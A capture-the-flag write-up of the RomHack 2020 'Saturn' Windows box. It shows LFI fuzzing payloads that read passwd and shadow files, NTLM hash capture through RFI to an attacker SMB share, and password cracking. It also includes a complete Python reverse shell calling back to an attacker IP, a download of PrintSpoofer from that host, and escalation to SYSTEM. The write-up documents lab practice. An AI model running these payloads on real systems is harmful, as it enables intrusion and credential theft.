

# RomHack CTF
The CTF was active from 26 Sep, 2020 17:00 until 27 Sep, 2020 05:00.


## Overview

 Title          | Category      | Points        | Flag         |
| ------------- | ------------- | ------------- | ------------- |
| Warmup       | Warmup           | 300           |  HTB{L3t_The_G4mes_Beg!n}             |             
| Saturn - User       | Fullpwn           | 400           |  16a937efbfd2498109579fc0f8b60253             |
| Saturn - Root | Fullpwn           | 125           | 613d0a8b84f894ce93efcc2e4b2f2779
| BonechewerCon     | Web        | 1000           |          
| 🤔 todo or not todo 🤔| Web        | 1000           |               | 
| ebirthday | Pwn| 100           |               |
| confused chromium | Pwn| 100           |               |
| Air Traffic Control          | Pwn          | 125           |              
| Final Space: The Abduction | Crypto          | 175           | 
| HandsomeWare    | Reversing          | 1000           |               |
| Phish in a Barrel       | Forensics           | 200           |               | 
| Offline        | Hardware        | 1000           |               | 


# Saturn - User

The challenge consisted of 3 IPs which all were the same type of machines.

10.10.10.93, 10.10.10.103 & 10.10.10.123.

We begin with a basic nmap and discover some ports

```python
nmap 10.10.10.93
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 17:40 AEST
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 17:40 (0:00:00 remaining)
Nmap scan report for 10.10.10.93
Host is up (0.39s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
```

As always, the web ports are always checked first. We see a search field



Doing a basic search gives us a query in the URI


Upon not finding anything else that was exploitable, we fuzzed the query for Local File Inclusion (LFI) vulnerabilities

```python
wfuzz -u https://10.10.10.93/index.php?url=FUZZ --hl 36 -w /usr/share/wfuzz/wordlist/Injections/All_attack.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.93/index.php?url=FUZZ
Total requests: 468

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                  
===================================================================

000000023:   200        37 L     108 W    1650 Ch     "%0a"                                                    
000000024:   200        38 L     124 W    1794 Ch     "%00"                                                    
000000025:   200        38 L     124 W    1795 Ch     "+%00"                                                   
000000043:   200        38 L     124 W    1796 Ch     "id%00"                                                  
000000044:   200        38 L     124 W    1797 Ch     "id%00|"                                                 
000000063:   200        38 L     124 W    1839 Ch     "../../../../../../../../../../../../etc/hosts%00"       
000000067:   200        38 L     124 W    1840 Ch     "../../../../../../../../../../../../etc/passwd%00"      
000000069:   200        38 L     124 W    1840 Ch     "../../../../../../../../../../../../etc/shadow%00"      
000000085:   200        38 L     124 W    1835 Ch     "\..\..\..\..\..\..\..\..\..\..\etc\passwd%00"           
000000086:   200        38 L     124 W    1835 Ch     "\..\..\..\..\..\..\..\..\..\..\etc\shadow%00"           
000000087:   200        38 L     124 W    1834 Ch     "..\..\..\..\..\..\..\..\..\..\etc\passwd%00"            
000000088:   200        38 L     124 W    1834 Ch     "..\..\..\..\..\..\..\..\..\..\etc\shadow%00"            
000000089:   200        37 L     109 W    1670 Ch     "%0a/bin/cat%20/etc/passwd"                              
000000090:   200        37 L     109 W    1670 Ch     "%0a/bin/cat%20/etc/shadow"                              
000000092:   200        38 L     124 W    1806 Ch     "%00/etc/shadow%00"                                      
000000091:   200        38 L     124 W    1806 Ch     "%00/etc/passwd%00"                                      
000000093:   200        38 L     124 W    1822 Ch     "%00../../../../../../etc/passwd"                        
000000094:   200        38 L     124 W    1822 Ch     "%00../../../../../../etc/shadow"                        
000000095:   200        38 L     124 W    1842 Ch     "/../../../../../../../../../../../etc/passwd%00.jpg"    
000000096:   200        38 L     124 W    1843 Ch     "/../../../../../../../../../../../etc/passwd%00.html"
```

Some basic LFI vulnerable paths were returned.

Using the Wappalyzer FireFox addon, we discover that the server is running Windows Server


After not being able to read any files on the server such as `/etc/hosts` or `win.ini`, we attempted a Remote File Inclusion (RFI) vulnerability.

We tried to load `test.txt` by navigating to our smbserver we had setup. A simple RFI vulnerability


We were able to get a hit on our `smbserver.py`, but no files were able to load via the web browser. We do however see a user and hash presented to us.

```python
smbserver.py share .
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.93,54738)
[*] User 10.10.14.61\Plagcheck authenticated successfully (basic)
[*] b'Plagcheck'::b'10.10.14.61':4b96ef65d0ee946f6bbfab3591ebbed07333d861ec1e05a3:c762b961fda4f36297fd5dbd35d45e7cb9dd44c9f5306762:
[-] TreeConnectAndX not found share
[*] Closing down connection (10.10.10.93,54738)
[*] Remaining connections []
```

After discovering that a reverse shell or web shell was also not possible, [`Responder.py`](http://responder.py) was used to obtain the NTLMv2 password hash of the Plagcheck user. This was done by using the above `[smbserver.py](http://smbserver.py)` command and navigating to `https://10.10.10.93/index.php?url=smb://10.10.14.61/share/test.txt`.

The hash was then cracked using the below command

```python
john --wordlist=/usr/share/wordlists/rockyou.txt saturn.hash
```

 The cracked password was: `Nat9m7starfox`

We used `smbclient` to enumerate available shares. The **backup** share was of interest

```python
smbclient -L //10.10.10.103 -U plagcheck
Enter WORKGROUP\plagcheck's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

After navigating to the backup share, we retrieved the files found inside

```python
smbclient //10.10.10.103/backup -U plagcheck
Enter WORKGROUP\plagcheck's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul  5 02:26:55 2020
  ..                                  D        0  Sun Jul  5 02:26:55 2020
  jupyter_notebook_config.json.bak      A      107  Sun Jul  5 03:16:00 2020
  pwgen.txt                           A   106800  Fri Jul 10 15:19:16 2020

		10328063 blocks of size 4096. 5413982 blocks available

smb: \> get pwgen.txt
getting file \pwgen.txt of size 106800 as pwgen.txt (43.2 KiloBytes/sec) (average 43.2 KiloBytes/sec)

smb: \> get jupyter_notebook_config.json.bak
getting file \jupyter_notebook_config.json.bak of size 107 as jupyter_notebook_config.json.bak (0.1 KiloBytes/sec) (average 26.4 KiloBytes/sec)
```

Looking at `jupyter_notebook_config.json.bak`, we discover that its a salted SHA1 hash

```python
cat jupyter_notebook_config.json.bak 
{
  "NotebookApp": {
    "password": "sha1:c5ac4c24e5aa:9f7d3f2a9213d3f233993113575464ba3079e47b"
  }
}
```

Looking at `pwgen.txt` we notice what looks like a lot of passwords

```python
cat pwgen.txt 
I generated some passwords we can use for our jupyter server, we will never have a weak password again! Even if someone had this list, it's way too many passwords to try them all on our server.

Eezu5phie8ahkooy2ooy vaejephohchaifie2Tei aeDi9oomahngaeth7Ail
oox2oolu1ikahX3nooGu ea8zaneiGeixoov2Quai ooMej8quigeeph1eethi
aeD6bie8ish2gai4uuH2 iephae8shae7lah8Ohj5 ApheiLaek1lah8oThoot
Ohrie8aPievoh4ohf2pe gu5oobuxah6Aish2ieph Xu9xeiGheshohyai2Aav
ahg3woo9quoo7thohz5T ohGheiS6eaX2eiFierai xeenga6shieGhahQueis
ooQuioqueitieviumoo8 UtaeN1ud6oothoofeequ looVo0ahNgaeghifah2l
pa6uWaifeiv3phaipei4 vaRaeyai0AeghaoQu4ae zohx7ieNaS9tae5cu1za
uaGohXeey8iJee8Ausee eib1vaoYeShohCieLeil ree2ahsoo9Keiquaegh2
<snip>
```

The output of the file has not been included as it is 1668 lines long. The long file was turned into a pasword list file by reducing the file from 3 columns into one by using the below command

```python
sed 's/ /\n/g' pwgen.txt > passwords.txt
```

The salted SHA1 hash was appended into a file that looked like the below

```python
cat jupiter.hash 
9f7d3f2a9213d3f233993113575464ba3079e47b:c5ac4c24e5aa
```

Hashcat was then used to try crack the hash

```python
hashcat -m 110 jupiter.hash passwords.txt
```


The cracked password was: `ak1je3Bai8noo9soo3fo` as shown above.

After cracking the password, we navigated to port 8080 which was a login screen for an open-source web application called Jupyter Notebook. The above password was used to obtain access to the application.

Jupyter Notebook is something I have played around with in the past but never in a malicious way. After printing something simple like **Hello World**, I tried something more useful like asking the server `whoami`. After playing around with some of the Python code, we were able to obtain RCE

```python
from subprocess import getoutput
getoutput("whoami")
```


After a short amount of time, we turned RCE into a reverse shell by utilizing the below code

```python
import os,socket,subprocess,threading;

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.19",4444))

p=subprocess.Popen(["\windows\system32\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

A `nc` was setup and this landed us a user shell as the jupiter user


The user flag was obtained and submitted

```python
C:\>type C:\users\Jupiter\desktop\user.txt
type C:\users\Jupiter\desktop\user.txt
16a937efbfd2498109579fc0f8b60253
```

It is worth noting we were the 2nd team to submit this flag.

# Saturn - Root

Onto privilege escalation now. We used the `systeminfo` command to tell us the Operating System of the Windows server

```python
c:\users\jupiter\documents>systeminfo
systeminfo

Host Name:                 SATURN
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
```

It is worth noting that Windows Server 2019 is vulnerable to the PrintSpoofer exploit so this was obtained from Github and transferred onto the box using `Invoke-WebRequest`. Before all of this however, the `powershell` command was used to execute PowerShell which enabled us to use the below command

```python
Invoke-WebRequest -Uri http://10.10.14.19:8000/PrintSpoofer.exe -OutFile C:\Windows\System32\spool\drivers\color\ps.exe
```

PrintSpoofer was executed with the `whoami` command which told us we were SYSTEM

```python
C:\Windows\System32\spool\drivers\color>.\ps.exe -i -c whoami
.\ps.exe -i -c whoami
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
nt authority\system
```

Using PrintSpoofer again, we used the `cmd` command to give us a elevated cmd shell as SYSTEM

```python
C:\Windows\System32\spool\drivers\color>.\ps.exe -i -c cmd    
.\ps.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We were then able to read the root flag, and get first blood on the FullPwn challenge!

```python
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
613d0a8b84f894ce93efcc2e4b2f2779
```
**Bonus**:

We were able to brute-force the SIDs to obtain the users of the box before getting a user shell:

```python
500: SATURN\Administrator (SidTypeUser)
501: SATURN\Guest (SidTypeUser)
503: SATURN\DefaultAccount (SidTypeUser)
504: SATURN\WDAGUtilityAccount (SidTypeUser)
513: SATURN\None (SidTypeGroup)
1000: SATURN\Plagcheck (SidTypeUser)
1001: SATURN\Jupiter (SidTypeUser)
```

**Bonus 2**:

The Search field was also vulnerable to XSS


